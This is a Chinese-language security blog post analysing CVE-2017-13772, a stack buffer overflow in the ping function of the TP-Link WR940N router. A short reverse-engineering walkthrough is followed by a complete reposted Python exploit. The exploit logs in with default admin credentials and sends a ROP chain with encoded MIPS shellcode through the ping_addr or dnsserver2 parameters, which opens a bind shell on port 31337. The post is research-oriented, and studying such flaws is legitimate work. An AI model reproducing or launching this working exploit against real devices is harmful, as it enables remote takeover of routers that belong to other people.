 ```yaml
---
title: 一步一步pwn路由器之wr940栈溢出漏洞分析与利用
authorId: hac425
tags:
  - CVE-2017-13772
  - 路由器实战
categories:
  - 路由器安全
date: 2017-10-29 22:20:00
---
```

### 前言


---
本文由 **本人** 首发于 先知安全技术社区：  https://xianzhi.aliyun.com/forum/user/5274/

---

这个是最近爆出来的漏洞，漏洞编号：[CVE-2017-13772](https://www.fidusinfosec.com/tp-link-remote-code-execution-cve-2017-13772/)


固件链接：http://static.tp-link.com/TL-WR940N(US)_V4_160617_1476690524248q.zip


之前使用 `firmadyn` 可以正常模拟运行，但是调试不了，就没有仔细看这个漏洞。今天突然想起 他会启动一个 `ssh` 服务，那我们是不是就可以通过`ssh` 连上去进行调试，正想试试，又不能正常模拟了。。。。。下面看具体漏洞。

### 正文


漏洞位与 管理员用来 	`ping` 的功能，程序在获取`ip` 地址时没有验证长度，然后复制到栈上，造成栈溢出。搜索关键字符串 `ping_addr` 定位到函数 `sub_453C50`


![paste image](http://oy9h5q2k4.bkt.clouddn.com/15092873431355nyiesez.png?imageslim)
获取 `ip` 地址后，把字符串指针放到 `$s6`寄存器，跟下去看看。
![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509287498785ykojz8u0.png?imageslim)


传入了`ipAddrDispose`函数，继续分析之：



![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509287595268qwyfsd2y.png?imageslim)
先调用了 `memset`  初始化缓冲区，然后调用 `strcpy` 把 `ip` 地址复制到栈上，溢出。


利用的话和前文是一样的，经典的栈溢出，经典的 rop。

[一步一步pwn路由器之rop技术实战](https://jinyu00.github.io/%E8%B7%AF%E7%94%B1%E5%99%A8%E5%AE%89%E5%85%A8/2017-10-28-%E4%B8%80%E6%AD%A5%E4%B8%80%E6%AD%A5pwn%E8%B7%AF%E7%94%B1%E5%99%A8%E4%B9%8Brop%E6%8A%80%E6%9C%AF%E5%AE%9E%E6%88%98.html)


[一步一步pwn路由器之路由器环境修复&&rop技术分析](https://jinyu00.github.io/%E8%B7%AF%E7%94%B1%E5%99%A8%E5%AE%89%E5%85%A8/2017-10-26-%E4%B8%80%E6%AD%A5%E4%B8%80%E6%AD%A5pwn%E8%B7%AF%E7%94%B1%E5%99%A8%E4%B9%8B%E8%B7%AF%E7%94%B1%E5%99%A8%E7%8E%AF%E5%A2%83%E4%BF%AE%E5%A4%8D-rop%E6%8A%80%E6%9C%AF%E5%88%86%E6%9E%90.html)


附上参考链接里的 `exp`

```
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import urllib2
import base64
import hashlib
from optparse import *
import sys
import urllib

banner = (
"___________________________________________________________________________\n"
"WR940N Authenticated Remote Code Exploit\n"
"This exploit will open a bind shell on the remote target\n"
"The port is 31337, you can change that in the code if you wish\n"
"This exploit requires authentication, if you know the creds, then\n"
"use the -u -p options, otherwise default is admin:admin\n"
"___________________________________________________________________________"
)

def login(ip, user, pwd):
	print "[+] Attempting to login to http://%s %s:%s"%(ip,user,pwd)
	#### Generate the auth cookie of the form b64enc('admin:' + md5('admin'))
	hash = hashlib.md5()
	hash.update(pwd)
	auth_string = "%s:%s" %(user, hash.hexdigest())
	encoded_string = base64.b64encode(auth_string)

	print "[+] Encoded authorisation: %s" %encoded_string#### Send the request
	url = "http://" + ip + "/userRpm/LoginRpm.htm?Save=Save"
	print "[+] sending login to " + url
	req = urllib2.Request(url)
	req.add_header('Cookie', 'Authorization=Basic %s' %encoded_string)
	resp = urllib2.urlopen(req)
	#### The server generates a random path for further requests, grab that here
	data = resp.read()
	next_url = "http://%s/%s/userRpm/" %(ip, data.split("/")[3])
	print "[+] Got random path for next stage, url is now %s" %next_url
	return (next_url, encoded_string)

#custom bind shell shellcode with very simple xor encoder
#followed by a sleep syscall to flush cash before running
#bad chars = 0x20, 0x00
shellcode = (
#encoder
"\x22\x51\x44\x44\x3c\x11\x99\x99\x36\x31\x99\x99"
"\x27\xb2\x05\x4b" #0x27b2059f for first_exploit
"\x22\x52\xfc\xa0\x8e\x4a\xfe\xf9"
"\x02\x2a\x18\x26\xae\x43\xfe\xf9\x8e\x4a\xff\x41"
"\x02\x2a\x18\x26\xae\x43\xff\x41\x8e\x4a\xff\x5d"
"\x02\x2a\x18\x26\xae\x43\xff\x5d\x8e\x4a\xff\x71"
"\x02\x2a\x18\x26\xae\x43\xff\x71\x8e\x4a\xff\x8d"
"\x02\x2a\x18\x26\xae\x43\xff\x8d\x8e\x4a\xff\x99"
"\x02\x2a\x18\x26\xae\x43\xff\x99\x8e\x4a\xff\xa5"
"\x02\x2a\x18\x26\xae\x43\xff\xa5\x8e\x4a\xff\xad"
"\x02\x2a\x18\x26\xae\x43\xff\xad\x8e\x4a\xff\xb9"
"\x02\x2a\x18\x26\xae\x43\xff\xb9\x8e\x4a\xff\xc1"
"\x02\x2a\x18\x26\xae\x43\xff\xc1"

#sleep
"\x24\x12\xff\xff\x24\x02\x10\x46\x24\x0f\x03\x08"
"\x21\xef\xfc\xfc\xaf\xaf\xfb\xfe\xaf\xaf\xfb\xfa"
"\x27\xa4\xfb\xfa\x01\x01\x01\x0c\x21\x8c\x11\x5c"

################ encoded shellcode ###############
"\x27\xbd\xff\xe0\x24\x0e\xff\xfd\x98\x59\xb9\xbe\x01\xc0\x28\x27\x28\x06"
"\xff\xff\x24\x02\x10\x57\x01\x01\x01\x0c\x23\x39\x44\x44\x30\x50\xff\xff"
"\x24\x0e\xff\xef\x01\xc0\x70\x27\x24\x0d"
"\x7a\x69"            #<————————- PORT 0x7a69 (31337)
"\x24\x0f\xfd\xff\x01\xe0\x78\x27\x01\xcf\x78\x04\x01\xaf\x68\x25\xaf\xad"
"\xff\xe0\xaf\xa0\xff\xe4\xaf\xa0\xff\xe8\xaf\xa0\xff\xec\x9b\x89\xb9\xbc"
"\x24\x0e\xff\xef\x01\xc0\x30\x27\x23\xa5\xff\xe0\x24\x02\x10\x49\x01\x01"
"\x01\x0c\x24\x0f\x73\x50"
"\x9b\x89\xb9\xbc\x24\x05\x01\x01\x24\x02\x10\x4e\x01\x01\x01\x0c\x24\x0f"
"\x73\x50\x9b\x89\xb9\xbc\x28\x05\xff\xff\x28\x06\xff\xff\x24\x02\x10\x48"
"\x01\x01\x01\x0c\x24\x0f\x73\x50\x30\x50\xff\xff\x9b\x89\xb9\xbc\x24\x0f"
"\xff\xfd\x01\xe0\x28\x27\xbd\x9b\x96\x46\x01\x01\x01\x0c\x24\x0f\x73\x50"
"\x9b\x89\xb9\xbc\x28\x05\x01\x01\xbd\x9b\x96\x46\x01\x01\x01\x0c\x24\x0f"
"\x73\x50\x9b\x89\xb9\xbc\x28\x05\xff\xff\xbd\x9b\x96\x46\x01\x01\x01\x0c"
"\x3c\x0f\x2f\x2f\x35\xef\x62\x69\xaf\xaf\xff\xec\x3c\x0e\x6e\x2f\x35\xce"
"\x73\x68\xaf\xae\xff\xf0\xaf\xa0\xff\xf4\x27\xa4\xff\xec\xaf\xa4\xff\xf8"
"\xaf\xa0\xff\xfc\x27\xa5\xff\xf8\x24\x02\x0f\xab\x01\x01\x01\x0c\x24\x02"
"\x10\x46\x24\x0f\x03\x68\x21\xef\xfc\xfc\xaf\xaf\xfb\xfe\xaf\xaf\xfb\xfa"
"\x27\xa4\xfb\xfe\x01\x01\x01\x0c\x21\x8c\x11\x5c"
)

###### useful gadgets #######
nop = "\x22\x51\x44\x44"
gadg_1 = "\x2A\xB3\x7C\x60"  # set $a0 = 1, and jmp $s1
gadg_2 = "\x2A\xB1\x78\x40"
sleep_addr = "\x2a\xb3\x50\x90"
stack_gadg = "\x2A\xAF\x84\xC0"
call_code = "\x2A\xB2\xDC\xF0"

def first_exploit(url, auth):
	#          trash $s1        $ra
	rop = "A"*164 + gadg_2  + gadg_1 + "B"*0x20 + sleep_addr + "C"*4
	rop += "C"*0x1c + call_code + "D"*4 + stack_gadg + nop*0x20 + shellcode

	params = {'ping_addr': rop, 'doType': 'ping', 'isNew': 'new', 'sendNum': '20', 'pSize': '64', 'overTime': '800', 'trHops': '20'}

	new_url = url + "PingIframeRpm.htm?" + urllib.urlencode(params)

	print "[+] sending exploit…"
	print "[+] Wait a couple of seconds before connecting"
	print "[+] When you are finished do http -r to reset the http service"

	req = urllib2.Request(new_url)
	req.add_header('Cookie', 'Authorization=Basic %s' %auth)
	req.add_header('Referer', url + "DiagnosticRpm.htm")

	resp = urllib2.urlopen(req)

def second_exploit(url, auth):
	url = url + "WanStaticIpV6CfgRpm.htm?"
	#                 trash      s0      s1      s2       s3     s4      ret     shellcode
	payload = "A"*111 + "B"*4 + gadg_2 + "D"*4 + "E"*4 + "F"*4 + gadg_1 + "a"*0x1c
	payload += "A"*4 + sleep_addr + "C"*0x20 + call_code + "E"*4
	payload += stack_gadg + "A"*4 +  nop*10 + shellcode + "B"*7
	print len(payload)

	params = {'ipv6Enable': 'on', 'wantype': '2', 'ipType': '2', 'mtu': '1480', 'dnsType': '1',
	'dnsserver2': payload, 'ipAssignType': '0', 'ipStart': '1000',
	'ipEnd': '2000', 'time': '86400', 'ipPrefixType': '0', 'staticPrefix': 'AAAA',
	'staticPrefixLength': '64', 'Save': 'Save', 'RenewIp': '1'}

	new_url = url + urllib.urlencode(params)

	print "[+] sending exploit…"
	print "[+] Wait a couple of seconds before connecting"
	print "[+] When you are finished do http -r to reset the http service"

	req = urllib2.Request(new_url)
	req.add_header('Cookie', 'Authorization=Basic %s' %auth)
	req.add_header('Referer', url + "WanStaticIpV6CfgRpm.htm")

	resp = urllib2.urlopen(req)

if __name__ == '__main__':
	print banner
	username = "admin"
	password = "admin"

	(next_url, encoded_string) = login("192.168.0.1", username, password)

	###### Both exploits result in the same bind shell ######
	#first_exploit(data[0], data[1])
	first_exploit(next_url, encoded_string)


```

参考链接：

https://www.fidusinfosec.com/tp-link-remote-code-execution-cve-2017-13772/